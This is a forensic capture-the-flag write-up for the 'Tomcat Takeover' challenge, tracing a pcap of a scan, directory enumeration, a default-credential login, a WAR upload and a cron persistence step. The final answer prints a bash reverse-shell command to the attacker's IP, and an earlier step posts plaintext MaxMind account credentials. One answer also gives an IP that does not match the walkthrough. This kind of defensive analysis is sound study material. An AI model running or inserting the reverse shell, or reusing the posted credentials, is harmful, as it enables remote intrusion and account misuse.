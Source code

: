 ```yaml
---
title: Tomcat Takeover
date: 2024-09-01 00:00:00 -500
categories: [DFIR, Network Forensics]
tags: [CyberDefenders]
---
```


# `[Retired]`

# Scenario:

Our SOC team has detected suspicious activity on one of the web servers within the company's intranet. In order to gain a deeper understanding of the situation, the team has captured network traffic for analysis. This pcap file potentially contains a series of malicious activities that have resulted in the compromise of the Apache Tomcat web server. We need to investigate this incident further.


### Tools:

```c
- [Wireshark](https://www.wireshark.org/download.html)
- [NetworkMiner](https://www.netresec.com/?page=NetworkMiner)
```


# Tags:

```c
[PCAP](https://cyberdefenders.org/blueteam-ctf-challenges/?tags=pcap)
[Wireshark](https://cyberdefenders.org/blueteam-ctf-challenges/?tags=wireshark)
[NetworkMiner](https://cyberdefenders.org/blueteam-ctf-challenges/?tags=networkminer)
[T1071](https://cyberdefenders.org/blueteam-ctf-challenges/?tags=t1071)
[T1083](https://cyberdefenders.org/blueteam-ctf-challenges/?tags=t1083)
[T1110](https://cyberdefenders.org/blueteam-ctf-challenges/?tags=t1110)
[T1027](https://cyberdefenders.org/blueteam-ctf-challenges/?tags=t1027)
[T1053.003](https://cyberdefenders.org/blueteam-ctf-challenges/?tags=t1053.003)
[T1059](https://cyberdefenders.org/blueteam-ctf-challenges/?tags=t1059)
[T1595](https://cyberdefenders.org/blueteam-ctf-challenges/?tags=t1595)
```

# Questions:

- Q1: Given the suspicious activity detected on the web server, the pcap analysis shows a series of requests across various ports, suggesting a potential scanning behavior. Can you identify the source IP address responsible for initiating these requests on our server?

-> Check on `Conversations`:

![](/assets/img/Pasted image 20240723102434.png)

	- We can see that the machine with the IP address of 14.0.0.129 scans all the ports of machine 10.0.0.112.


<u>Answer</u>: 

`14.0.0.120`


- Q2: Based on the identified IP address associated with the attacker, can you ascertain the `city` from which the attacker's activities originated?

Go to `Endpoints` -> `IPv4` -> `City` column (need internet connection for this)

How to download the MaxMind databases to access "`City`" and "`ASNs`":

```c
1) Login to maxmind.com
2) Use account seccj283@gmail.com:Wireshark123!
3) Go to "My Account"
4) On the left hand side underneath the "GeoIP2/GeoLite2", click on the "Download Files".
5) Download all that you need (use the binary format [.mmdb] and NOT the .csv one)
	- ASN
	- Country
	- City
```

- Use `iplocation.net` to map the IP address.  I don't know why MaxMind database has the wrong info on this with the latitude and longitude.

-> Answer: `GuangZhou`


- Q3: From the pcap analysis, multiple open ports were detected as a result of the attacker's activitie scan. Which of these ports provides access to the web server admin panel?

![](/assets/img/Pasted image 20240724162321.png)

![](/assets/img/Pasted image 20240724162403.png)

-> Answer:  port `8080`


- Q4: Following the discovery of open ports on our server, it appears that the attacker attempted to enumerate and uncover directories and files on our web server. Which tools can you identify from the analysis that assisted the attacker in this enumeration process?

The tool used for directory enumeration is caught in ***Wireshark***'s `User-Agent` as well as in ***NetworkMiner***.

<u>In Wireshark</u>:

```c
Query:
http.user_agent && ip.src == 14.0.0.120
```

![](/assets/img/Pasted image 20240724170733.png)


<u>In NetworkMiner</u>:

![](/assets/img/Pasted image 20240724170500.png)

-> Answer: `gobuster`


- Q5: Subsequent to their efforts to enumerate directories on our web server, the attacker made numerous requests trying to identify administrative interfaces. Which specific directory associated with the admin panel was the attacker able to uncover?

<u>Wireshark query</u>:

```c
ip.addr == 14.0.0.120 && ip.dst == 10.0.0.112
```

Substring key:

```c
'admin'
```

From here, let's see which one directs us to the administrative panel:

![](/assets/img/Pasted image 20240724171249.png)

It seems like `/admin` is ***not*** that panel:

![](/assets/img/Pasted image 20240724171410.png)


Weirdly enough, `/manager` request showed this:

![](/assets/img/Pasted image 20240724171614.png)

- That's probably the default credentials


-> Answer: `/manager`


- Q6: Upon accessing the admin panel, the attacker made attempts to ***brute-force*** the login credentials. From the data, can you identify the correct username and password combination that the attacker successfully used for authorization?

For this one, we can go to the tab: `Column > Credentials`

![](/assets/img/Pasted image 20240724172000.png)


Output:

![](/assets/img/Pasted image 20240724172028.png)


From here, we can dive deep using the packet number:

```c
Wireshark query:
ip.addr == 14.0.0.120 && ip.dst == 10.0.0.112 && http.request.full_uri contains "/manager"
```

![](/assets/img/Pasted image 20240724172658.png)


It might be helpful to add columns for response and request and important fields like `Authorization`: `Edit > Preferences`

Now, we can check the response for each of the credentials stated above:

![](/assets/img/Pasted image 20240724173144.png)

	- Indicator that this was a successful login was the 200 ok response from credentials => admin:tomcat


![](/assets/img/Pasted image 20240724173305.png)


<u>From NetworkMiner</u>:

![](/assets/img/Pasted image 20240724175758.png)


-> Answer: `admin:tomcat`


- Q7: Once inside the admin panel, the attacker attempted to upload a file with the intent of establishing a reverse shell. Can you identify the name of this malicious file from the captured data?

Building from the answer on Q6, we can sift through with the credentials of `admin:tomcat` by focusing on the `Authorization` part:

```c
Wireshark query:
ip.addr == 14.0.0.120 && ip.dst == 10.0.0.112 && http.request.full_uri contains "/manager" && http.authorization
```

![](/assets/img/Pasted image 20240724173630.png)


Following through it:

![](/assets/img/Pasted image 20240724173144.png)


Also visible in File Export Objects:

![](/assets/img/Pasted image 20240724174543.png)


-> Answer: `JXQOZY.war`


- Q8: Upon successfully establishing a reverse shell on our server, the attacker aimed to ensure persistence on the compromised machine. From the analysis, can you determine the specific command they are scheduled to run to maintain their presence?

<u>Wireshark Query</u>:

```c
ip.src == 10.0.0.112 && tcp.port == 8080 && ip.dst == 14.0.0.120
```

Execution of the reverse shell in the victim's system: `GET /JXQOZY`

![](/assets/img/Pasted image 20240724173948.png)


Let's see what's the next connections are:

![](/assets/img/Pasted image 20240724180956.png)

	- First command executed by attacker is 'whoami'
	- Listening port on the attacker's machine: port 80
	- Sending port on the victim's machine: port 55162


Response on this first command:

![](/assets/img/Pasted image 20240724181058.png)


Let's dig on using the parameters on the first command executed:

```c
Wireshark Query:
ip.addr == 10.0.0.112 && tcp.port == 55162
```

![](/assets/img/Pasted image 20240724181257.png)


Following the TCP stream:

![](/assets/img/Pasted image 20240724181324.png)

-> Answer: `/bin/bash -c 'bash -i >& /dev/tcp/14.0.0.120/443 0>&1`
